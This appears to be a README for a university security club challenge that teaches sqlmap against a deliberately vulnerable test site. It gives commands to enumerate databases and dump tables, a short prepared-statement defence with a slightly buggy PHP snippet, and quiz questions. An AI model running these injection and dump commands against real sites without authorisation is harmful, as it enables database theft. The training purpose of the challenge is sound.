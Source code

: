 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
* Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
* Install with git

```
$ sudo git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev       
$ python sqlmap.py                                                                       
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   You can either use the url directly to begin the attack:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   Or you can:
   * Intercept the request with BurpSuite (or whatever you prefer)
   * Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -r <file_path.txt> --dbs
             -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection 
  * Reference: https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/
  * SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. 
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered                                          GoogleForm: https://docs.google.com/forms/d/1dXsPoqZ1Bf4SSsOdvbrZ8hS1qcCFm6oFqZNqAMCk6t4/edit?usp=sharing

  * What option can we use to change the user agent to tor ?
  * Which DBMS is being used and what version is it ? 
  * What are the names of the two databases ?
  * How many tables are there in the database 'acuart' ?
  * What kind of data type is being stored in the 'adsec' column of the table 'artists' ?
  * What is the 1st value of 'aname' column of the table 'artists' and the database 'acuart' ?
  
